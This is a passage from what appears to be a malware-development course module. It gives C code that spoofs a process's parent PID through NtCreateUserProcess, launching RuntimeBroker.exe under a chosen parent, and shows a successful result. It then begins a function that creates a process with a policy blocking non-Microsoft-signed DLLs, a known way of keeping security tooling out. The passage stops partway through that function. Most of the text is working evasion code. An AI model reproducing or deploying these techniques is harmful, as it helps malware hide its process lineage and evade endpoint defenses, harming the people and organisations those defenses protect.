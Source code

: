 The main function below invokes `NtCreateUserProcessForPPidSpoofing` to perform PPID spoofing.

```c
#define TARGET_PROCESS          L"\\??\\C:\\Windows\\System32\\RuntimeBroker.exe"
#define PROCESS_PARMS           L"C:\\Windows\\System32\\RuntimeBroker.exe -Embedding"
#define PROCESS_PATH            L"C:\\Windows\\System32"

#define PARENT_PID              4384

int main() {

  HANDLE	hProcess	= NULL,
		    hThread		= NULL;
		
  hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PARENT_PID);
  if (!NtCreateUserProcessForPPidSpoofing(TARGET_PROCESS, PROCESS_PARMS, PROCESS_PATH, hParentProcess, &hProcess, &hThread))
	return -1;

  printf("[+] Target Process Created With Pid : %d \n", GetProcessId(hProcess));
  printf("[+] Process's Main Thread Created With Tid : %d \n", GetThreadId(hThread));
  return 0;
}	

```

#### Results

The image below shows a process with a successfully spoofed parent process.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntcreateuserprocess-719850092-b93a1079-dfe7-4a3c-9db5-bc00c30df0b6.png)

### Block DLL Policy Using NtCreateUserProcess

`NtCreateUserProcess` can also be used to enable the block DLL policy, which was introduced in the previous module. The `PS_ATTRIBUTE_LIST` structure will require two attributes. The additional attribute is set to `PS_ATTRIBUTE_MITIGATION_OPTIONS` which specifies the process mitigation options to use for the new process.

`NtCreateUserProcessForBlockDllPolicy` is a custom function that enables the mitigation policy to block non-Microsoft signed DLLs.

```c
BOOL NtCreateUserProcessForBlockDllPolicy(
	IN      PWSTR   szTargetProcess,
	IN      PWSTR   szTargetProcessParameters,
	IN      PWSTR   szTargetProcessPath,
	OUT     PHANDLE hProcess,
	OUT     PHANDLE hThread
) {

	// getting the address of 'RtlCreateProcessParametersEx' and 'NtCreateUserProcess' from ntdll.dll
	fnRtlCreateProcessParametersEx  RtlCreateProcessParametersEx    = (fnRtlCreateProcessParametersEx)GetProcAddress(GetModuleHandle(L"NTDLL"), "RtlCreateProcessParametersEx");
	fnNtCreateUserProcess           NtCreateUserProcess             = (fnNtCreateUserProcess)GetProcAddress(GetModuleHandle(L"NTDLL"), "NtCreateUserProcess");

	if (NtCreateUserProcess == NULL || RtlCreateProcessParametersEx == NULL)
		return FALSE;

	NTSTATUS                        STATUS                      = NULL;
	UNICODE_STRING                  UsNtImagePath               = { 0 },
                                    UsCommandLine               = { 0 },
                                    UsCurrentDirectory          = { 0 };
	PRTL_USER_PROCESS_PARAMETERS    UppProcessParameters        = NULL;
```
